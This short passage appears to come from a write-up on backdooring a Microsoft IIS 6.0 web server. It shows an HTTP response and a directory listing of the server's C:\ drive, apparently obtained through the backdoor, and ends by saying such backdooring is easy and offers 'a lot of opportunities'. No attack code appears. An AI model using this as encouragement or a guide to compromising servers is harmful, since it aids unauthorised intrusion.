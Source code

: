 ```
ETag: "963779573811cb1:994"
Server: Microsoft-IIS/6.0

<html>

Pouetpouet

</html>
[F] C:\AUTOEXEC.BAT
[F] C:\boot.ini
[F] C:\bootfont.bin
[F] C:\CONFIG.SYS
[D] C:\Documents and Settings
[D] C:\Inetpub
[F] C:\IO.SYS
[F] C:\MSDOS.SYS
[F] C:\NTDETECT.COM
[F] C:\ntldr
[F] C:\pagefile.sys
[D] C:\Program Files
[D] C:\System Volume Information
[D] C:\WINDOWS
[D] C:\wmpub
```

So, backdoring a IIS web server is not that difficult and can give you a lot of opportunities...
